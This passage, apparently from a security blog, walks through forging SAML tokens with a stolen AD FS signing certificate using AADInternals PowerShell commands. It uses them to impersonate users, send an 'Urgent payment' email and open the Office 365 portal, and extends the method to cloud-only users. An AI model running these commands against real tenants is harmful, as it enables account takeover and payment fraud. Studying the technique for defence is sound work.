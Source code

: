 First, if not known, you also need the AD FS identifier, which is typically a uri:
{{< highlight powershell >}}
# Get the issuer 
Get-AdfsProperties | Select Identifier
{{< /highlight>}}
```
Identifier                                    
----------                                    
http://sts.company.com/adfs/services/trust
```

Now we have all the needed information and the SAML token can be created. By default, the token is valid for one hour.
{{< highlight powershell >}}
# Create a new SAML token
$saml=New-AADIntSAMLToken -ImmutableID "UQ989+t6fEq9/0ogYtt1pA==" -PfxFileName ADFSSigningCertificate.pfx -PfxPassword "" -Issuer "http://sts.company.com/adfs/services/trust"
{{< /highlight>}}

With the SAML token, you can now get OAuth Access Token to be used with AADInternals functions.
{{< highlight powershell >}}
# Get an access token for Exchange Online
$at=Get-AADIntAccessTokenForEXO -SAMLToken $saml

# Send a message using "Outlook"
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
{{< /highlight>}}

You can also open the Office 365 Portal with the signing certificate. The following command creates a .html file in temp and opens it with Internet Explorer in Private mode.
{{< highlight powershell >}}
# Open the Office Portal
Open-AADIntOffice365Portal -ImmutableID "UQ989+t6fEq9/0ogYtt1pA==" -PfxFileName ADFSSigningCertificate.pfx -PfxPassword "" -Issuer "http://sts.company.com/adfs/services/trust"
{{< /highlight>}}

## Creating tokens for cloud-only users
If the AD FS administrator have access to Azure AD Connect (which is quite typical), they can set ImmutableId for any cloud-user (SourceAnchor). 
This way SAML tokens can be created also for cloud-only users. 

And the funny part is, that the ImmutableId doesn't have to be Base64 encoded GUID, it can be **any string** :smile:
